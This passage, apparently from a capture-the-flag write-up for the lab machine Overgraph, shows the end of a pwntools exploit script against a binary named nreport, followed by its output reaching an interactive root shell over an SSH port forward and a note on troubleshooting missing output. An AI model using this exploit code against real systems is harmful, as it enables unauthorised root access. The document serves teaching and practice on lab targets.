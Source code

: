     # send token
    p.sendline(b"aaaxxxxxxaxxxs")
    # send name
    p.sendline(b"0xdf" + b"\x00" * 4 + p64(command_addr))
    
    create("title", "message")
    edit(13, "bash\x00", "0xdf")
    x = p.recv()
    p.sendline(b"5")
    p.interactive()
    

### Shell

#### PTY Issues

Running this exploit locally returns a functional shell:

    
    
    oxdf@hacky$ python root.py 
    [+] Starting local process './nreport': pid 104479
    [*] Switching to interactive mode
    $ id
    uid=1000(oxdf) gid=1000(oxdf) groups=1000(oxdf),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare),139(libvirt),998(vboxsf)
    

To get this running on Overgraph, I’ll connect over SSH as user with `-L
9851:localhost:9851`, creating a listening port on my VM that will forward
traffic to 9851 on Overgraph’s localhost.

I’ll run the exploit, and get what looks like a shell:

    
    
    oxdf@hacky$ python root.py REMOTE
    [+] Opening connection to 127.0.0.1 on port 9851: Done
    [*] Switching to interactive mode
    ...[snip]...
    root@overgraph:~# $
    

However, when I run a command, there’s no output:

    
    
    root@overgraph:~# id
    
    
    root@overgraph:~#
    

Trying things like `reset`, or even a full [shell
upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q) doesn’t fix it.

If I try `ping -c 1 10.10.14.6`, I will detect ICMP packets in `tcpdump`:
